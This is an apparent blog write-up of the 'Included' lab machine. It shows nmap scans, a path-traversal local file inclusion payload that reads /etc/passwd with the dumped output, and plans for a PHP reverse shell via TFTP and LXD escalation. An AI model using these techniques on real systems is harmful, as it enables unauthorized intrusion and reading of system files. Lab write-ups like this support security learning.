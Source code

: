 ```yaml
---
title: "Writeup: Included"
date: 2021-01-17T19:34:30-04:00
categories:
  - Blog
  - Writeup
tags:
  - included
  - Linux
  - update
  - nmap
  - passwords
  - lxc
  - dirsearch
  - webshell
  - LFI
  - TFTP
  - nc
  - strings
  - chmod
  - upgrade shell
  - nmap
---
```


Here are notes from the named target:
Target is Linux
Host name Included
IP 10.10.10.55

#Enumeration
Start with simple nmap

```yaml
┌──(root💀kali)-[~]
└─# nmap -A -v 10.10.10.55
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-19 20:42 EST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 20:42
Completed NSE at 20:42, 0.00s elapsed
Initiating NSE at 20:42
Completed NSE at 20:42, 0.00s elapsed
Initiating NSE at 20:42
Completed NSE at 20:42, 0.00s elapsed
Initiating Ping Scan at 20:42
Scanning 10.10.10.55 [4 ports]
Completed Ping Scan at 20:42, 0.10s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:42
Completed Parallel DNS resolution of 1 host. at 20:42, 0.02s elapsed
Initiating SYN Stealth Scan at 20:42
Scanning 10.10.10.55 [1000 ports]
*Discovered open port 80/tcp on 10.10.10.55

```

only port found open was port 80 http so going to try UDP also

```yaml
nmap -sU -v 10.10.10.55
```

*This will take some time so going to check out web site in browser

Look at the webpage does not seem too special so take a look at page source and I see this in the URL block

```yaml
view-source:http://10.10.10.55/?file=index.php#
```

the URL has a tell for possible local file include to try

First it is *PHP

Second it has *?file= in the URL

The common path to check if it is vulnerable to LFI is the *../../../../etc/passwd file path

So by using this URL *http://10.10.10.55/?file=../../../../etc/passwd

We get the password file inserted at the top od the page for viewing. that also tells me if I can get a PHP reverse shell on the site I can use the browd\ser to fire it off

```yaml
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
mike:x:1000:1000:mike:/home/mike:/bin/bash
tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin
```

*Oh look!* we have good intel here 
It has an account for *tftp* - good way to get in. A user account named *mike* and a service called *lxd* which is a service to host virtural file systems in linux like vbox does on laptops. some easy reading indicated this is also a way to do Linux PE to get root if you grt on the box.

We have tftp service running it seems:

```yaml
──(root💀kali)-[~]
└─# nmap -sU -v 10.10.10.55
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-19 20:47 EST

`
`
PORT   STATE         SERVICE
*69/udp open|filtered tftp*
```







